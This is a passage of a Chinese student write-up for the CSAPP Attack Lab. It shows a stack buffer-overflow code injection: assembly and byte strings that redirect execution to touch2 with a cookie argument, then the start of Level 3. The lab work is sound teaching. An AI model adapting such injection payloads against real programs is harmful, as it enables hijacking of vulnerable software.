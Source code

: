 根据Writeup的代码，想要成功，不仅是要把返回值设置成`touch2`的地址，还要把第一个参数设置成`cookie`，也就是我们这里的`0x59b997fa`，其中第一个参数放在`%rdi`寄存器中。

通过之前的反汇编代码，查到`touch2()`的地址为`0x00000000004017ec`。

```assembly
movq	$0x59b997fa, %rdi
pushq	$0x4017ec
retq
```

这里用`ret`，通过弹出之前将`touch2`函数地址压栈的结果，将`touch2`的地址传给了PC。

将上面这三条代码保存，让 gcc 生成汇编。

![image-20220608211448135](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608211448135.png)

汇编代码序列是

```
48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3
```

现在我们要将这段程序放在栈的特定位置，冒充数据，然后在之前的`touch1`位置改成这段程序的地址。这里我们选择在栈的开始位置注入这段代码，现在的任务是找到`%rsp`在哪。

借助 GDB 来找：

![image-20220608211822512](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608211822512.png)

所以`%rsp`在`0x5561d668`，构造字符串：【注入代码】-【无用字符】-【注入代码地址】

```
48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 86 20 11 16 68 D6 61 55
```

保存为`level2.txt`，做测试。

![image-20220608212339377](/media/sprout/SproutUSTC/CSAPP  Lab Report2.assets/image-20220608212339377.png)

#### Level 3（Phase 3）

这一部分和前面差不多，只不过传入的参数从`int`变成了`char*`也就是字符串。

Writeup中说，提供给我们`hexmatch`函数进行判断，所以我们只需要传入一个字符串`59b997fa`即可（注意结尾的`\0`）。

并且，根据提示

> When functions `hexmatch` and `strncmp` are called, they push data onto the stack, overwriting portions of memory that held the buffer used by `getbuf`. As a result, you will need to be careful where you place the string representation of your cookie.

这说明`hexmatch`调用时可能会覆盖`getbuf`栈帧的数据，所以需要小心对待字符串位置。

再看看给我们的字符串地址：

```C
char *s = cbuf + random() % 100;
```

说明`s`的位置是随机的，保险起见，这里字符串我们选择放在`test`函数的栈帧中。用 GDB 找相应的 `%rsp` 位置：
